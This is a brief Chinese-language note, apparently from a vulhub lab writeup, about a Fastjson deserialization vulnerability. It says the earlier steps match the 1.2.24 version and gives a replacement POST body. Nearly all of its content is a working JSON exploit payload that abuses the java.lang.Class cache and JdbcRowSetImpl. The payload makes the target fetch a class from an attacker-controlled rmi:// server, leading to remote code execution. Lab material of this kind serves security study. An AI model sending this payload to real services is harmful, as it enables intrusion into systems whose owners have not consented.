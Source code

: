 # vulhub环境版本

前面的部分全部同1.2.24版本

POST 参数改为
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://[RMI_SERVER_IP:PORT]/[class]",
        "autoCommit":true
    }
}
```